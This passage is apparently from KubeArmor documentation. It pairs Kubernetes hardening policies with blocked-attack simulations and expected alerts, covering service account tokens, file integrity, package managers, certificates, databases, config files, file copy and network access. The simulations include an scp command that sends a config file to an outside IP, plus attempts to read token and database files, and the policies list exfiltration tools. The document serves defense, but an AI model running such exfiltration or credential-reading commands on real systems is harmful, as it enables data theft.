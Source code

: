 <!-- (This is an auto-generated file. Do not edit manually.) -->

# KubeArmor Use-Cases


<details><summary><h2>Service Account token: Protect access to k8s service account token</h2></summary>

### Description
K8s mounts the service account token as part of every pod by default. The service account token is a credential that can be used as a bearer token to access k8s APIs and gain access to other k8s entities. Many times there are no processes in the pod that use the service account tokens which means in such cases the k8s service account token is an unused asset that can be leveraged by the attacker.

### Attack Scenario
It's important to note that attackers often look for ways to gain access to other entities within Kubernetes clusters. One common method is to check for credential accesses, such as service account tokens, in order to perform lateral movements. For instance, in many Kubernetes attacks, once the attacker gains entry into a pod, they may attempt to use a service account token to access other entities. <br />  **Attack type** Credential Access, Comand Injection <br />  **Actual Attack** Hildegard, BlackT, BlackCat RaaS

### Compliance
- CIS_Kubernetes_Benchmark_v1.27, Control-Id-5.1.6

## Policy
### Service account token
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: ksp-wordpress-block-service-account
  namespace: wordpress-mysql
spec:
  severity: 2
  selector:
    matchLabels:
      app: wordpress
  file:
    matchDirectories:
      - dir: /run/secrets/kubernetes.io/serviceaccount/
        recursive: true
  action: Block
```
#### Simulation
```sh
root@wordpress-7c966b5d85-42jwx:/# cd /run/secrets/kubernetes.io/serviceaccount/ 
root@wordpress-7c966b5d85-42jwx:/run/secrets/kubernetes.io/serviceaccount# ls 
ls: cannot open directory .: Permission denied 
root@wordpress-7c966b5d85-42jwx:/run/secrets/kubernetes.io/serviceaccount# 
```

#### Expected Alert
```
{
  "ATags": null,
  "Action": "Block",
  "ClusterName": "deathiscoming",
  "ContainerID": "bbf968e6a75f0b4412478770911c6dd05d5a83ec97ca38872246e89c31e9d41a",
  "ContainerImage": "docker.io/library/wordpress:4.8-apache@sha256:6216f64ab88fc51d311e38c7f69ca3f9aaba621492b4f1fa93ddf63093768845",
  "ContainerName": "wordpress",
  "Data": "syscall=SYS_OPENAT fd=-100 flags=O_RDONLY|O_NONBLOCK|O_DIRECTORY|O_CLOEXEC",
  "Enforcer": "AppArmor",
  "HashID": "f1c272d8d75bdd91b9c4d1dc74c8d0f222bf4ecd0008c3a22a54706563ec5827",
  "HostName": "aditya",
  "HostPID": 11105,
  "HostPPID": 10997,
  "Labels": "app=wordpress",
  "Message": "",
  "NamespaceName": "wordpress-mysql",
  "Operation": "File",
  "Owner": {
    "Name": "",
    "Namespace": "",
    "Ref": ""
  },
  "PID": 204,
  "PPID": 194,
  "PodName": "wordpress-7c966b5d85-42jwx",
  "PolicyName": "DefaultPosture",
  "ProcessName": "/bin/ls",
  "Resource": "/run/secrets/kubernetes.io/serviceaccount",
  "Result": "Permission denied",
  "Severity": "",
  "Source": "/bin/ls",
  "Tags": "",
  "Timestamp": 1695903189,
  "Type": "MatchedPolicy",
  "UID": 0,
  "UpdatedTime": "2023-09-28T12:13:09.159252Z",
  "cluster_id": "3664",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "workload": "1"
}
```

## References
[MITRE T1528: Steal Application Access Token](https://attack.mitre.org/techniques/T1528/)<br />



</details>


<details><summary><h2>FIM: File Integrity Monitoring/Protection</h2></summary>

### Description
Changes to system binary folders, configuration paths, and credentials paths need to be monitored for change. With KubeArmor, one can not only monitor for changes but also block any write attempts in such system folders. Compliance frameworks such as PCI-DSS, NIST, and CIS expect FIM to be in place.

### Attack Scenario
In a possible attack scenario, an attacker may try to update the configuration to disable security controls or access logs. This can allow them to gain further access to the system and carry out malicious activities undetected. It's crucial to be aware of such threats and take proactive measures to prevent such attacks from occurring. <br /> **Attack Type** Data Manipulation, Integrity Threats<br /> **Actual Attack** NetWalker, Conti, DarkSide RaaS

### Compliance
- CIS Distribution Independent Linuxv2.0, Control-Id:6.3.5
- PCI-DSS, Requirement: 6
- PCI-DSS, Requirement: 10
- NIST_800-53_AU-2
- MITRE_T1565_data_manipulation

## Policy
### File Integrity Monitoring
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: harden-mysql-file-integrity-monitoring
  namespace: wordpress-mysql
spec:
  action: Block
  file:
    matchDirectories:
    - dir: /sbin/
      readOnly: true
      recursive: true
    - dir: /usr/bin/
      readOnly: true
      recursive: true
    - dir: /usr/lib/
      readOnly: true
      recursive: true
    - dir: /usr/sbin/
      readOnly: true
      recursive: true
    - dir: /bin/
      readOnly: true
      recursive: true
    - dir: /boot/
      readOnly: true
      recursive: true
  message: Detected and prevented compromise to File integrity
  selector:
    matchLabels:
      app: mysql
  severity: 1
  tags:
  - NIST
  - NIST_800-53_AU-2
  - NIST_800-53_SI-4
  - MITRE
  - MITRE_T1036_masquerading
  - MITRE_T1565_data_manipulation
```
#### Simulation
```sh
kubectl exec -it mysql-74775b4bf4-65nqf -n wordpress-mysql -- bash
root@mysql-74775b4bf4-65nqf:/# cd sbin
root@mysql-74775b4bf4-65nqf:/sbin# touch file
touch: cannot touch 'file': Permission denied
root@mysql-74775b4bf4-65nqf:/sbin# cd ..
```


### Expected Alert
```
{
  "ATags": [
    "NIST",
    "NIST_800-53_AU-2",
    "NIST_800-53_SI-4",
    "MITRE",
    "MITRE_T1036_masquerading",
    "MITRE_T1565_data_manipulation"
  ],
  "Action": "Block",
  "ClusterName": "aditya",
  "ContainerID": "b75628d4225b8071d5795da342cf2a5c03b1d67b22b40016697fcd17a0db20e4",
  "ContainerImage": "docker.io/library/mysql:5.6@sha256:20575ecebe6216036d25dab5903808211f1e9ba63dc7825ac20cb975e34cfcae",
  "ContainerName": "mysql",
  "Data": "syscall=SYS_OPEN flags=O_WRONLY|O_CREAT|O_NOCTTY|O_NONBLOCK",
  "Enforcer": "AppArmor",
  "HashID": "f0b220bfa3b7aeae754f3bf8a60dd1a0af001f5956ad22f625bdf83406a7fea3",
  "HostName": "aditya",
  "HostPID": 16462,
  "HostPPID": 16435,
  "Labels": "app=mysql",
  "Message": "Detected and prevented compromise to File integrity",
  "NamespaceName": "wordpress-mysql",
  "Operation": "File",
  "Owner": {
    "Name": "mysql",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 167,
  "PPID": 160,
  "PodName": "mysql-74775b4bf4-65nqf",
  "PolicyName": "harden-mysql-file-integrity-monitoring",
  "ProcessName": "/bin/touch",
  "Resource": "/sbin/file",
  "Result": "Permission denied",
  "Severity": "1",
  "Source": "/usr/bin/touch file",
  "Tags": "NIST,NIST_800-53_AU-2,NIST_800-53_SI-4,MITRE,MITRE_T1036_masquerading,MITRE_T1565_data_manipulation",
  "Timestamp": 1696316210,
  "Type": "MatchedPolicy",
  "UID": 0,
  "UpdatedTime": "2023-10-03T06:56:50.829165Z",
  "cluster_id": "3896",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "workload": "1"
}
```

## References
[Mitre-Techniques-T1565](https://attack.mitre.org/techniques/T1565/)<br />[PCI DSS and FIM](https://pcidssguide.com/the-pci-dss-and-file-integrity-monitoring/)<br />[The biggest ransomware attacks in history](https://www.techtarget.com/searchsecurity/tip/The-biggest-ransomware-attacks-in-history)<br />



</details>


<details><summary><h2>Packaging tools: Deny execution of package management tools</h2></summary>

### Description
Pods/Containers might get shipped with binaries which should never used in the production environments. Some of those bins might be useful in dev/staging environments but the same container image is carried forward in most cases to the production environment too. For security reasons, the devsecops team might want to disable the use of these binaries in the production environment even though the bins exists in the container. As an example, most of the container images are shipped with package management tools such as apk, apt, yum, etc. If anyone ends up using these bins in the prod env, it will increase the attack surface of the container/pod.

### Attack Scenario
In an attack scenario, adversaries may use system tools such as fsck, ip, who, apt, and others for reconnaissance and to download additional tooling from remote servers. These tools can help them gain valuable information about the system and its vulnerabilities, allowing them to carry out further attacks. It's important to be vigilant about such activities and implement security measures to prevent such attacks from happening.<br /> **Attack Type** Command Injection, Malware, Backdoor<br /> **Actual Attack**  AppleJeus, Codecov supply chain

### Compliance
- CIS Distribution Independent Linuxv2.0
- Control-Id:6.4.5
- NIST_800-53_SI-4
- NIST_800-53_CM-7(4)

## Policy
### Packaging tools execution
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: harden-mysql-pkg-mngr-exec
  namespace: wordpress-mysql
spec:
  action: Block
  message: Alert! Execution of package management process inside container is denied
  process:
    matchPaths:
    - path: /usr/bin/apt
    - path: /usr/bin/apt-get
    - path: /bin/apt-get
    - path: /sbin/apk
    - path: /bin/apt
    - path: /usr/bin/dpkg
    - path: /bin/dpkg
    - path: /usr/bin/gdebi
    - path: /bin/gdebi
    - path: /usr/bin/make
    - path: /bin/make
    - path: /usr/bin/yum
    - path: /bin/yum
    - path: /usr/bin/rpm
    - path: /bin/rpm
    - path: /usr/bin/dnf
    - path: /bin/dnf
    - path: /usr/bin/pacman
    - path: /usr/sbin/pacman
    - path: /bin/pacman
    - path: /sbin/pacman
    - path: /usr/bin/makepkg
    - path: /usr/sbin/makepkg
    - path: /bin/makepkg
    - path: /sbin/makepkg
    - path: /usr/bin/yaourt
    - path: /usr/sbin/yaourt
    - path: /bin/yaourt
    - path: /sbin/yaourt
    - path: /usr/bin/zypper
    - path: /bin/zypper
  selector:
    matchLabels:
      app: mysql
  severity: 5
  tags:
  - NIST
  - NIST_800-53_CM-7(4)
  - SI-4
  - process
  - NIST_800-53_SI-4
```
#### Simulation
```sh
kubectl exec -it mysql-74775b4bf4-65nqf -n wordpress-mysql -- bash
root@mysql-74775b4bf4-65nqf:/# apt
bash: /usr/bin/apt: Permission denied
root@mysql-74775b4bf4-65nqf:/# apt-get
bash: /usr/bin/apt-get: Permission denied
```

#### Expected Alert
```
{
  "ATags": [
    "NIST",
    "NIST_800-53_CM-7(4)",
    "SI-4",
    "process",
    "NIST_800-53_SI-4"
  ],
  "Action": "Block",
  "ClusterName": "aditya",
  "ContainerID": "b75628d4225b8071d5795da342cf2a5c03b1d67b22b40016697fcd17a0db20e4",
  "ContainerImage": "docker.io/library/mysql:5.6@sha256:20575ecebe6216036d25dab5903808211f1e9ba63dc7825ac20cb975e34cfcae",
  "ContainerName": "mysql",
  "Data": "syscall=SYS_EXECVE",
  "Enforcer": "AppArmor",
  "HashID": "dd573c234f68b8df005e8cd314809c8b2a23852230d397743e348bf4a03ada3f",
  "HostName": "aditya",
  "HostPID": 21894,
  "HostPPID": 16435,
  "Labels": "app=mysql",
  "Message": "Alert! Execution of package management process inside container is denied",
  "NamespaceName": "wordpress-mysql",
  "Operation": "Process",
  "Owner": {
    "Name": "mysql",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 168,
  "PPID": 160,
  "PodName": "mysql-74775b4bf4-65nqf",
  "PolicyName": "harden-mysql-pkg-mngr-exec",
  "ProcessName": "/usr/bin/apt",
  "Resource": "/usr/bin/apt",
  "Result": "Permission denied",
  "Severity": "5",
  "Source": "/bin/bash",
  "Tags": "NIST,NIST_800-53_CM-7(4),SI-4,process,NIST_800-53_SI-4",
  "Timestamp": 1696318864,
  "Type": "MatchedPolicy",
  "UID": 0,
  "UpdatedTime": "2023-10-03T07:41:04.096412Z",
  "cluster_id": "3896",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "workload": "1"
}
```

## References
[MITRE Installer Packages](https://attack.mitre.org/techniques/T1546/016/)<br />[Codecov Incident - A Supply Chain Attack](https://blog.sonatype.com/what-you-need-to-know-about-the-codecov-incident-a-supply-chain-attack-gone-undetected-for-2-months)<br />



</details>


<details><summary><h2>Trusted certs bundle: Protect write access to the trusted root certificates bundle</h2></summary>

### Description
Adversaries may install a root certificate on a compromised system to avoid warnings when connecting to adversary-controlled web servers. Root certificates are used in public key cryptography to identify a root certificate authority (CA). When a root certificate is installed, the system or application will trust certificates in the root's chain of trust that have been signed by the root certificate. Installation of a root certificate on a compromised system would give an adversary a way to degrade the security of that system.

### Attack Scenario
By using this technique, attackers can successfully evade security warnings that alert users when compromised systems connect over HTTPS to adversary-controlled web servers. These servers often look like legitimate websites, and are designed to trick users into entering their login credentials, which can then be used by the attackers. It's important to be aware of this threat and take necessary precautions to prevent these attacks from happening.<br /> **Attack Type** Man-In-The-Middle(MITM)<br /> **Actual Attack**  POODLE(Padding Oracle On Downgraded Legacy Encryption), BEAST (Browser Exploit Against SSL/TLS)

### Compliance
- CIS Distribution Independent Linuxv2.0
- Control-Id: 6.3.4
- MITRE_T1552_unsecured_credentials

## Policy
### Trusted Certs Bundle
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: harden-mysql-trusted-cert-mod
  namespace: wordpress-mysql
spec:
  action: Block
  file:
    matchDirectories:
    - dir: /etc/ssl/
      readOnly: true
      recursive: true
    - dir: /etc/pki/
      readOnly: true
      recursive: true
    - dir: /usr/local/share/ca-certificates/
      readOnly: true
      recursive: true
  message: Credentials modification denied
  selector:
    matchLabels:
      app: mysql
  severity: 1
  tags:
  - MITRE
  - MITRE_T1552_unsecured_credentials
  - FGT1555
  - FIGHT
```
#### Simulation
```sh
 kubectl exec -it mysql-74775b4bf4-65nqf -n wordpress-mysql -- bash
root@mysql-74775b4bf4-65nqf:/# cd /etc/ssl/
root@mysql-74775b4bf4-65nqf:/etc/ssl# ls
certs
root@mysql-74775b4bf4-65nqf:/etc/ssl# rmdir certs
rmdir: failed to remove 'certs': Permission denied
root@mysql-74775b4bf4-65nqf:/etc/ssl# cd certs/
root@mysql-74775b4bf4-65nqf:/etc/ssl/certs# touch new
touch: cannot touch 'new': Permission denied
root@mysql-74775b4bf4-65nqf:/etc/ssl/certs#
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "aditya",
  "ContainerID": "b75628d4225b8071d5795da342cf2a5c03b1d67b22b40016697fcd17a0db20e4",
  "ContainerImage": "docker.io/library/mysql:5.6@sha256:20575ecebe6216036d25dab5903808211f1e9ba63dc7825ac20cb975e34cfcae",
  "ContainerName": "mysql",
  "Data": "syscall=SYS_RMDIR",
  "Enforcer": "AppArmor",
  "HostName": "aditya",
  "HostPID": 24462,
  "HostPPID": 24411,
  "Labels": "app=mysql",
  "Message": "Credentials modification denied",
  "NamespaceName": "wordpress-mysql",
  "Operation": "File",
  "Owner": {
    "Name": "mysql",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 185,
  "PPID": 179,
  "ParentProcessName": "/bin/bash",
  "PodName": "mysql-74775b4bf4-65nqf",
  "PolicyName": "harden-mysql-trusted-cert-mod",
  "ProcessName": "/bin/rmdir",
  "Resource": "/etc/ssl/certs",
  "Result": "Permission denied",
  "Severity": "1",
  "Source": "/bin/rmdir certs",
  "Tags": "MITRE,MITRE_T1552_unsecured_credentials,FGT1555,FIGHT",
  "Timestamp": 1696320102,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-03T08:01:42.373810Z",
  "cluster_id": "3896",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```

## References
[MITRE Subvert Trust Controls](https://attack.mitre.org/techniques/T1553/004/)<br />[MITRE Unsecured credentials](https://attack.mitre.org/techniques/T1552/)<br />[POODLE Attack](https://www.acunetix.com/blog/web-security-zone/what-is-poodle-attack/)<br />[BEAST](https://docs.digicert.com/en/certcentral/certificate-tools/discovery-user-guide/tls-ssl-endpoint-vulnerabilities/beast.html#:~:text=In%20a%20BEAST%20attack%2C%20the,e.g.%2C%20HTTP%20authentication%20cookies).)<br />



</details>


<details><summary><h2>Database access: Protect read/write access to raw database tables from unknown processes.</h2></summary>

### Description
Applications use databases to store all the information such as posts, blogs, user information, etc. WordPress applications almost certainly use a MySQL database for storing their content, and those are usually stored elsewhere on the system, often /var/lib/mysql/some_db_name. 

### Attack Scenario
Adversaries have been known to use various techniques to steal information from databases. This information can include user credentials, posts, blogs, and more. By obtaining this information, adversaries can gain access to user accounts and potentially perform a full-account takeover, which can lead to further compromise of the target system. It's important to ensure that appropriate security measures are in place to protect against these types of attacks.<br /> **Attack Type** SQL Injection, Credential Access, Account Takeover<br /> **Actual Attack** Yahoo Voices Data Breach in 2012

### Compliance
- CIS Distribution Independent Linuxv2.0
- Control-Id: 6.14.4

## Policy
### Database Access
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: ksp-block-mysql-dir
  namespace: wordpress-mysql
spec:
  message: Alert! Attempt to make changes to database detected
  tags:
  - CIS
  - CIS_Linux
  selector:
    matchLabels:
      app: mysql
  file:
    matchDirectories:
    - dir: /var/lib/mysql/
      ownerOnly: true
      readOnly: true
      severity: 1
      action: Block
```
#### Simulation
```sh
kubectl exec -it mysql-74775b4bf4-65nqf -n wordpress-mysql -- bash
root@mysql-74775b4bf4-65nqf:/# cd var/lib/mysql
root@mysql-74775b4bf4-65nqf:/var/lib/mysql# cat ib_logfile1
cat: ib_logfile1: Permission denied
root@mysql-74775b4bf4-65nqf:/var/lib/mysql#
```

#### Expected Alert
```
{
  "ATags": [
    "CIS",
    "CIS_Linux"
  ],
  "Action": "Block",
  "ClusterName": "aditya",
  "ContainerID": "b75628d4225b8071d5795da342cf2a5c03b1d67b22b40016697fcd17a0db20e4",
  "ContainerImage": "docker.io/library/mysql:5.6@sha256:20575ecebe6216036d25dab5903808211f1e9ba63dc7825ac20cb975e34cfcae",
  "ContainerName": "mysql",
  "Data": "syscall=SYS_OPEN flags=O_RDONLY",
  "Enforcer": "AppArmor",
  "HashID": "a7b7d91d52de395fe6cda698e89e0112e6f3ab818ea331cee60295a8ede358c8",
  "HostName": "aditya",
  "HostPID": 29898,
  "HostPPID": 29752,
  "Labels": "app=mysql",
  "Message": "Alert! Attempt to make changes to database detected",
  "NamespaceName": "wordpress-mysql",
  "Operation": "File",
  "Owner": {
    "Name": "mysql",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 230,
  "PPID": 223,
  "PodName": "mysql-74775b4bf4-65nqf",
  "PolicyName": "ksp-block-mysql-dir",
  "ProcessName": "/bin/cat",
  "Resource": "/var/lib/mysql/ib_logfile1",
  "Result": "Permission denied",
  "Severity": "1",
  "Source": "/bin/cat ib_logfile1",
  "Tags": "CIS,CIS_Linux",
  "Timestamp": 1696322555,
  "Type": "MatchedPolicy",
  "UID": 0,
  "UpdatedTime": "2023-10-03T08:42:35.618890Z",
  "cluster_id": "3896",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "workload": "1"
}
```

## References
[MITRE Scan Databases](https://attack.mitre.org/techniques/T1596/005/)<br />[Yahoo Service Hacked](https://arstechnica.com/information-technology/2012/07/yahoo-service-hacked/)<br />



</details>


<details><summary><h2>Config data: Protect access to configuration data containing plain text credentials.</h2></summary>

### Description
Adversaries may search local file systems and remote file shares for files containing insecurely stored credentials. These can be files created by users to store their own credentials, shared credential stores for a group of individuals, configuration files containing passwords for a system or service, or source code/binary files containing embedded passwords.

### Attack Scenario
In a possible attack scenario, an attacker may try to change the configurations to open websites to application security holes such as session hijacking and cross-site scripting attacks, which can lead to the disclosure of private data. Additionally, attackers can also leverage these changes to gather sensitive information. It's crucial to take proactive measures to prevent these attacks from occurring.<br /> **Attack Type** Cross-Site Scripting(XSS), Data manipulation, Session hijacking<br /> **Actual Attack** XSS attack on Fortnite 2019, Turla LightNeuron Attack

### Compliance
- CIS Distribution Independent Linuxv2.0
- Control-Id: 6.16.14

## Policy
### Config data
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: ksp-block-stig-v-81883-restrict-access-to-config-files
  namespace: wordpress-mysql
spec:
  tags:
  - config-files
  message: Alert! configuration files have been accessed
  selector:
    matchLabels:
      app: wordpress
  file:
    matchPatterns:
    - pattern: /**/*.conf
      ownerOnly: true
  action: Block
```
#### Simulation

With a shell different than the user owning the file:
```sh
$ cat /etc/ca-certificates.conf                                                                                         
cat: /etc/ca-certificates.conf: Permission denied                                                                       
$                                                   
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "d3mo",
  "ContainerID": "548176888fca6bb6d66633794f3d5f9d54930a9d9f43d4f05c11de821c758c0f",
  "ContainerImage": "docker.io/library/wordpress:4.8-apache@sha256:6216f64ab88fc51d311e38c7f69ca3f9aaba621492b4f1fa93ddf63093768845",
  "ContainerName": "wordpress",
  "Data": "syscall=SYS_OPEN flags=O_RDONLY",
  "Enforcer": "AppArmor",
  "HostName": "master-node",
  "HostPID": 39039,
  "HostPPID": 38787,
  "Labels": "app=wordpress",
  "NamespaceName": "wordpress-mysql",
  "Operation": "File",
  "Owner": {
    "Name": "wordpress",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 220,
  "PPID": 219,
  "ParentProcessName": "/bin/dash",
  "PodName": "wordpress-fb448db97-wj7n7",
  "PolicyName": "DefaultPosture",
  "ProcessName": "/bin/cat",
  "Resource": "/etc/ca-certificates.conf",
  "Result": "Permission denied",
  "Source": "/bin/cat /etc/ca-certificates.conf",
  "Timestamp": 1696485467,
  "Type": "MatchedPolicy",
  "UID": 1000,
  "UpdatedTime": "2023-10-05T05:57:47.935622Z",
  "cluster_id": "2302",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```

## References
[MITRE Unsecured credentials in files](https://attack.mitre.org/techniques/T1552/001/)<br />[Turla LightNeuron](https://www.welivesecurity.com/2019/05/07/turla-lightneuron-email-too-far/)<br />



</details>


<details><summary><h2>File Copy: Prevent file copy using standard utilities.</h2></summary>

### Description
Exfiltration consists of techniques that adversaries may use to steal data from your network. Once they’ve collected data, adversaries often package it to avoid detection while removing it. This can include compression and encryption. Techniques for getting data out of a target network typically include transferring it over their command and control channel or an alternate channel and may also include putting size limits on the transmission.

### Attack Scenario
It's important to note that file copy tools can be leveraged by attackers for exfiltrating sensitive data and transferring malicious payloads into the workloads. Additionally, it can also assist in lateral movement within the system. It's crucial to take proactive measures to prevent these attacks from occurring.<br /> **Attack Type** Credential Access, Lateral movements, Information Disclosure<br /> **Actual Attack** DarkBeam Data Breach, Shields Health Care Group data breach

### Compliance
- MITRE_TA0010_exfiltration
- NIST_800-53_SI-4(18)
- MITRE_TA0008_lateral_movement

## Policy
### File Copy
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: harden-wordpress-remote-file-copy
  namespace: wordpress-mysql
spec:
  action: Block
  message: Alert! remote file copy tools execution prevented.
  process:
    matchPaths:
    - path: /usr/bin/rsync
    - path: /bin/rsync
    - path: /usr/bin/scp
    - path: /bin/scp
    - path: /usr/bin/scp
    - path: /bin/scp
  selector:
    matchLabels:
      app: wordpress
  severity: 5
  tags:
  - MITRE
  - MITRE_TA0008_lateral_movement
  - MITRE_TA0010_exfiltration
  - MITRE_TA0006_credential_access
  - MITRE_T1552_unsecured_credentials
  - NIST_800-53_SI-4(18)
  - NIST
  - NIST_800-53
  - NIST_800-53_SC-4
```
#### Simulation
```sh
root@wordpress-fb448db97-wj7n7:/usr/bin# scp /etc/ca-certificates.conf 104.192.3.74:/mine/                              
bash: /usr/bin/scp: Permission denied                                                                                   
root@wordpress-fb448db97-wj7n7:/usr/bin#     
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "d3mo",
  "ContainerID": "548176888fca6bb6d66633794f3d5f9d54930a9d9f43d4f05c11de821c758c0f",
  "ContainerImage": "docker.io/library/wordpress:4.8-apache@sha256:6216f64ab88fc51d311e38c7f69ca3f9aaba621492b4f1fa93ddf63093768845",
  "ContainerName": "wordpress",
  "Data": "syscall=SYS_EXECVE",
  "Enforcer": "AppArmor",
  "HostName": "master-node",
  "HostPID": 72178,
  "HostPPID": 30490,
  "Labels": "app=wordpress",
  "Message": "Alert! remote file copy tools execution prevented.",
  "NamespaceName": "wordpress-mysql",
  "Operation": "Process",
  "Owner": {
    "Name": "wordpress",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 259,
  "PPID": 193,
  "ParentProcessName": "/bin/bash",
  "PodName": "wordpress-fb448db97-wj7n7",
  "PolicyName": "harden-wordpress-remote-file-copy",
  "ProcessName": "/usr/bin/scp",
  "Resource": "/usr/bin/scp /etc/ca-certificates.conf 104.192.3.74:/mine/",
  "Result": "Permission denied",
  "Severity": "5",
  "Source": "/bin/bash",
  "Tags": "MITRE,MITRE_TA0008_lateral_movement,MITRE_TA0010_exfiltration,MITRE_TA0006_credential_access,MITRE_T1552_unsecured_credentials,NIST_800-53_SI-4(18),NIST,NIST_800-53,NIST_800-53_SC-4",
  "Timestamp": 1696487496,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-05T06:31:36.085860Z",
  "cluster_id": "2302",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```

## References
[MITRE Exfiltration](https://attack.mitre.org/tactics/TA0010/)<br />[Darkbeams data breach](https://www.idstrong.com/sentinel/darkbeams-alarming-data-breach/)<br />[Shields Healthcare Group Data Breach](https://www.idstrong.com/sentinel/shields-healthcare-group-data-breach/)<br />



</details>


<details><summary><h2>Network Access: Process based network access control</h2></summary>

### Description
Typically, within a pod/container, there are only specific processes that need to use network access. KubeArmor allows one to specify the set of binaries that are allowed to use network primitives such as TCP, UDP, and Raw sockets and deny everyone else.

### Attack Scenario
In a possible attack scenario, an attacker binary may attempt to send a beacon to its Command and Control (C&C) Server. Additionally, the binary may use network primitives to exfiltrate pod/container data and configuration. It's important to monitor network traffic and take proactive measures to prevent these attacks from occurring, such as implementing proper access controls and segmenting the network.<br /> **Attack Type** Denial of Service(DoS), Distributed Denial of Service(DDoS)<br /> **Actual Attack** DDoS attacks on websites of public institutions in Belgium, DDoS attack on the website of a city government in Germany

### Compliance
- Network Access

## Policy
### Network Access
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: restrict-proccess
  namespace: default
spec:
  severity: 4
  selector:
    matchLabels:
      app: nginx
  network:
    matchProtocols:
    - protocol: tcp
      fromSource:
      - path: /usr/bin/wget
    - protocol: udp
      fromSource:
      - path: /usr/bin/wget
  action:
    Allow
```
#### Simulation
Set the default security posture to default-deny

```sh
kubectl annotate ns default kubearmor-network-posture=block --overwrite
```

```sh
kubectl exec -it nginx-77b4fdf86c-x7sdm -- bash
root@nginx-77b4fdf86c-x7sdm:/# curl www.google.com
curl: (6) Could not resolve host: www.google.com
root@nginx-77b4fdf86c-x7sdm:/# wget https://github.com/kubearmor/KubeArmor/blob/main/examples/wordpress-mysql/original/wordpress-mysql-deployment.yaml
--2023-10-06 11:08:58--  https://github.com/kubearmor/KubeArmor/blob/main/examples/wordpress-mysql/original/wordpress-mysql-deployment.yaml
Resolving github.com (github.com)... 20.207.73.82
Connecting to github.com (github.com)|20.207.73.82|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15051 (15K) [text/plain]
Saving to: 'wordpress-mysql-deployment.yaml.2'

wordpress-mysql-deployment.ya 100%[=================================================>]  14.70K  --.-KB/s    in 0.08s

2023-10-06 11:08:59 (178 KB/s) - 'wordpress-mysql-deployment.yaml.2' saved [15051/15051]
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "0-trust",
  "ContainerID": "20a6333c6a46e0da32b3062f0ba76e9aed4fc5ef51f5ee8aec5b980963cedea3",
  "ContainerImage": "docker.io/library/nginx:latest@sha256:32da30332506740a2f7c34d5dc70467b7f14ec67d912703568daff790ab3f755",
  "ContainerName": "nginx",
  "Data": "syscall=SYS_SOCKET",
  "Enforcer": "AppArmor",
  "HostName": "aditya",
  "HostPID": 73952,
  "HostPPID": 73945,
  "Labels": "app=nginx",
  "NamespaceName": "default",
  "Operation": "Network",
  "Owner": {
    "Name": "nginx",
    "Namespace": "default",
    "Ref": "Deployment"
  },
  "PID": 532,
  "PPID": 525,
  "ParentProcessName": "/usr/bin/bash",
  "PodName": "nginx-77b4fdf86c-x7sdm",
  "PolicyName": "DefaultPosture",
  "ProcessName": "/usr/bin/curl",
  "Resource": "domain=AF_INET type=SOCK_DGRAM|SOCK_NONBLOCK|SOCK_CLOEXEC protocol=0",
  "Result": "Permission denied",
  "Source": "/usr/bin/curl www.google.com",
  "Timestamp": 1696588301,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-06T10:31:41.935146Z",
  "cluster_id": "4291",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```





</details>


<details><summary><h2>/tmp/ noexec: Do not allow execution of binaries from /tmp/ folder.</h2></summary>

### Description
If provided the necessary privileges, users have the ability to install software in organizational information systems. To maintain control over the types of software installed, organizations identify permitted and prohibited actions regarding software installation. Prohibited software installations may include, for example, software with unknown or suspect pedigrees or software that organizations consider potentially malicious.

### Attack Scenario
